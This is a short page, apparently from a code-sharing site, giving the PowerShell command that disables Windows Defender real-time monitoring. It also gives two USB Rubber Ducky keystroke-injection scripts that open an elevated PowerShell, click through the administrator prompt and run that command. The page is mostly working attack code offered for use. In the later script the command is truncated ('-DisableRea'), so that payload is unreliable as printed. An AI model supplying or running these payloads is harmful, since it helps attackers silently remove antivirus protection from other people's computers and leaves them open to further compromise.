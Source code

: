 Windows defender can be disabled with PS using the following command

```ps
Set-MpPreference -DisableRealtimeMonitoring $true
```

Example scripts:

_Dec 24, 2018_ 
```
REM Windows 10: Disable Windows Defender with Powershell
REM Author: Judge2020
REM author website: Judge2020.com
REM
DELAY 1000
GUI r
DELAY 200
REM Start an elevated powershell instance which will disable Windows Defender.
STRING powershell start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
ENTER
DELAY 1000
REM if you need administrator [left, enter and delay 1000]
LEFT
ENTER
DELAY 1000
ALT y
```

Note: line with "ALT y" may not be required and could lead to error in the next line.  
_Apr 23, 2018_
```
REM Windows 10: Disable Windows Defender with Powershell
REM Author: Judge2020
REM author website: Judge2020.com
REM  
REM let the HID enumerate
DELAY 1000
GUI r
DELAY 200
REM my best attempt at a elevated powershell instance
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y 
DELAY 200
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
STRING exit
ENTER
```